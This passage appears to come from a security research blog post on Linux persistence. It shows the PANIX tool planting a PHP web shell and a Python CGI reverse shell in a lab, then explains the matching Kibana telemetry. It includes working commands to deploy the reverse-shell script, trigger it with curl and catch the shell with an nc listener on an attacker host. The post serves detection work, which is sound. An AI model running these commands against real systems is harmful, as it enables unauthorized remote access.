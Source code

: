 Executing the payload generates the following documents in Kibana:

![PANIX web-shell module execution visualized in Kibana (command shell payload)]( /assets/images/continuation-on-persistence-mechanisms/image3.png "PANIX web-shell module execution visualized in Kibana (command shell payload)")

The figure above shows PANIX being executed and the `/home/ruben/panix/` directory being created (as PANIX is executed with user privileges). The `cmd.php` file is created, and the PHP web shell is spawned with the `-S` flag and listens on all interfaces (`0.0.0.0`) on port 8080. Upon execution of the `curl` command from the attack host, we can see a `connection_accepted`, followed by the execution of the `whoami` command, followed by a `disconnect_received`. 

To simulate reverse shell behavior, we can simulate a Python reverse shell through the following PANIX command:

```bash
./panix.sh --web-shell --language python --mechanism reverse --port 8080 --rev-port 2018 --ip 192.168.1.100

[+] Web server directory created at /home/ruben/panix/
[+] reverse.py file created in /home/ruben/panix/cgi-bin/
[+] Interact via: curl http://<ip>:8080/cgi-bin/reverse.py
[!] Starting Python3 server on port 8080 with CGI enabled...
[+] Python3 server running in the background at port 8080.
[!] In case you cannot connect, ensure your firewall settings are allowing inbound traffic on port 8080.

Run the following commands in case of issues on RHEL/CentOS systems:

sudo firewall-cmd --add-port=8080/tcp --permanent
sudo firewall-cmd --reload
```

After which, we can communicate with the reverse shell from the attacker machine through the following commands:

```bash
// Terminal 1
> curl http://192.168.1.100:8080/cgi-bin/reverse.py

// Terminal 2
> nc -nvlp 2018
listening on [any] 2018 ...
connect to [192.168.211.131] from (UNKNOWN) [192.168.211.151] 47250
> whoami
ruben
```

This module generates the following documents:


![PANIX web-shell module execution visualized in Kibana (reverse shell payload)]( /assets/images/continuation-on-persistence-mechanisms/image4.png "PANIX web-shell module execution visualized in Kibana (reverse shell payload)")

After PANIX executes, we can see `/home/ruben/panix/cgi-bin/reverse.py` being created and execution permissions being granted. A `python3` web server with CGI support is spawned. After executing the `curl` command from the attacker machine, we can see an incoming connection through the `connection_accepted` event, followed by the execution of the reverse shell command, leading to the call back to the attacker machine through the `connection_attempted` event. A fully interactive shell is obtained once the attacker catches the reverse connection.
